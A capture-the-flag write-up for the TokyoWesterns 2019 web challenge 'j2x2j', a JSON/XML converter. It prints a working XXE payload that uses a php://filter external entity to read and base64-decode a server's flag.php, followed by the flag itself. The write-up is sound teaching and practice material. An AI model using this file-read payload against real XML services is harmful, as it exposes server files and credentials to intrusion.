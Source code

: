 ```yaml
---
layout: post
title: "TokyoWesterns CTF 5th 2019: Web - j2x2j"
modified: 2019-09-03
tags: twctf, twctf2019quals, web
---
```


This was a simple JSON-to-XML / XML-to-JSON converter. The challenge was categorized as "warmup", so to my not-that-big surprise the most basic XXE vulnerability worked as expected:

I used the following code (written into Chrome's console) to leak the flag:

{% highlight javascript %}
$.post('/', { xml: `<?xml version="1.0"?><!DOCTYPE foo [<!ELEMENT leak ANY><!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///var/www/html/flag.php">]><root><leak>&xxe;</leak></root>` }, function(data) { $('#json').val(atob(JSON.parse(data).leak)); });
{% endhighlight %}

The flag was:

{% highlight text %}
TWCTF{t1ny_XXE_st1ll_ex1sts_everywhere}
{% endhighlight %}
